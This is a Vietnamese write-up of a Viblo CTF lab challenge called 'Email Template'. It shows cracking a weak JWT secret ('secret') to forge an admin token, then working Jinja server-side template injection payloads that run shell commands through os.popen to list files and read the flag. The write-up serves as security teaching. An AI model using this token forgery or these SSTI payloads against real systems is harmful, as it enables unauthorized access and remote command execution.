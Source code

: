 link: https://ctf.viblo.asia/puzzles/email-template-6xgpvznenzc

Truy cập http://172.104.49.143:1609/ và login với user: user1/user1
<img width="1770" height="603" alt="image" src="https://github.com/user-attachments/assets/ffe31fa4-1604-4923-b059-59a959e45877" />

Nhưng user này không có quyền truy cập tính năng "Edit template"
<img width="1186" height="348" alt="image" src="https://github.com/user-attachments/assets/1c1b30c1-155f-4a17-9120-309f4a12895d" />
Thử đi scan port bằng nmap và file ẩn cũng không có gì, ta quay lại phần token đáng nghi hiển thị ở profile của user

Dùng Jwt tool để crack jwt token, ta thấy nó sử dụng secret key là "secret"
<img width="1453" height="314" alt="image" src="https://github.com/user-attachments/assets/1be2acb5-8d83-41a2-85fd-0bf628f7762a" />
Sử dụng secret này để tạo jwt token của admin
<img width="1259" height="667" alt="image" src="https://github.com/user-attachments/assets/e653bbb1-b3bf-4c6e-9928-33bf1148f421" />
Sử dụng token này, ta thành công truy cập tài khoản admin
<img width="1764" height="789" alt="image" src="https://github.com/user-attachments/assets/2988778c-acbc-497a-9a0b-a5fc31cf93cd" />
Với User admin này, ta đã có thể truy cập được chức năng "Edit template"
<img width="1846" height="815" alt="image" src="https://github.com/user-attachments/assets/d9684b09-d41b-466c-a1d2-c55acfcd0402" />
Test thử với payload "{{7*7}}" ta thấy response trả về là 49. => Lỗi SSTI với ngôn ngữ python
<img width="1920" height="513" alt="image" src="https://github.com/user-attachments/assets/f9e9cdd6-99f8-46aa-a635-2264dc005486" />
Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls%20-a').read()}}``` để đọc file
<img width="1438" height="592" alt="image" src="https://github.com/user-attachments/assets/d15e6635-c090-4d73-8448-4763e9a80556" />
Dùng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20flag.py').read()}}``` tìm được flag.
<img width="1434" height="784" alt="image" src="https://github.com/user-attachments/assets/8f0de944-0cba-488c-ad60-9a611f49f255" />

=> Flag{viBlo_CtF_2024_ssTI}


